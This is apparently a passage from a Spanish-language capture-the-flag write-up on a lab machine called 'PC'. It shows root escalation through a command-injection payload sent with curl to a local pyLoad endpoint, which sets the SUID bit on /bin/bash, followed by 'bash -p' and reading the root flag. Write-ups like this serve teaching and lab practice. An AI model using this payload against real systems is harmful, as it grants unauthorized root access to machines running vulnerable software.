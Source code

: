 Antes de ejecutarlo, podemos ver que la `bash` no es **SUID**.

![bash no SUID](/img/blog/writeups/pc/no-suid.webp)

El payload debemos ponerlo en el campo `jk` de la petición.

```bash
sau@pc:~$ curl -i -s -k -X 'POST' -H 'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary 'package=xxx&crypted=AAAA&jk=pyimport%20os%3Bos%2Esystem%28%22chmod%20u%2Bs%20%2Fbin%2Fbash%22%29%3B&passwords=aaaa' 'http://127.0.0.1:8000/flash/addcrypted2'
```

Ya es **SUID** la `bash`. Ahora solo ejecutamos `bash -p` para obtener una consola como el usuario propietario que es **root**.

![bash SUID](/img/blog/writeups/pc/suid.webp)

```bash
sau@pc:~$ bash -p
bash-5.0# cat /root/root.txt
bda**************************681
```
